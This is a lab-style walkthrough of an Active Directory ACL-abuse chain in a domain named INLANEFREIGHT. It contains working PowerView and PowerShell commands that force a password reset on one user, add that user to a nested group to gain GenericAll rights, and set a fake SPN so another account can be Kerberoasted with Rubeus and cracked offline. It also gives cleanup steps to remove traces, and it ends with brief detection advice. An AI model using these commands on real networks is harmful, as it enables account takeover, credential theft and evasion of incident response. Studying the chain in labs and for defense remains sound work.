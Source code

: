 ### **ACL Abuse Tactics Overview**

The goal of this attack chain is to escalate privileges by abusing ACL misconfigurations in Active Directory. The attack follows this sequence:

1. **Gain control over `damundsen`** by changing their password using the `wley` account.
2. **Leverage `GenericWrite` over the `Help Desk Level 1` group** to add `damundsen` as a member.
3. **Use nested group membership** to escalate `damundsen` into `Information Technology`.
4. **Use `GenericAll` rights** over `adunn` to:
    - Modify group membership.
    - Force password changes.
    - Perform a **Kerberoasting attack** to obtain credentials.

---
### **1. Changing Password for `damundsen`**

Authenticate as `wley` and force change `damundsen`'s password:
```powershell
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 

$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
Now, we can authenticate as `damundsen`.


### **2. Adding `damundsen` to the `Help Desk Level 1` Group**

Authenticate as `damundsen`:
```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```

Check current group members:
```powershell
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
```

Add `damundsen` to the group:
```powershell
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```

Confirm the user was added:
```powershell
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```
Since `Help Desk Level 1` is **nested** inside `Information Technology`, `damundsen` now has **GenericAll** rights over `adunn`.

### **3. Exploiting `GenericAll` Over `adunn`**

Instead of changing `adunn`'s password, we perform a **Kerberoasting attack** by setting a fake **SPN**.
```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

Retrieve Kerberos TGS Ticket:
```powershell
.\Rubeus.exe kerberoast /user:adunn /nowrap
```

Crack the hash offline using **Hashcat**.

### **4. Cleanup**

To remove traces of the attack:

1. **Remove the fake SPN**:
```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```

2. ** Remove `damundsen` from `Help Desk Level 1`**:
```powershell
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```

3. **Reset `damundsen`'s password** (if necessary).

---

### **Detection & Remediation**

1. **Audit and remove dangerous ACLs** using **BloodHound**.
2. **Monitor group membership changes** for critical groups.
3. **Enable security logging for ACL modifications**:
    - Watch for **Event ID 5136** (Active Directory object modifications).
    ```powershell
    ConvertFrom-SddlString "<SDDL_STRING_HERE>"
```
4. **Use AD monitoring tools** to detect and prevent ACL abuse.
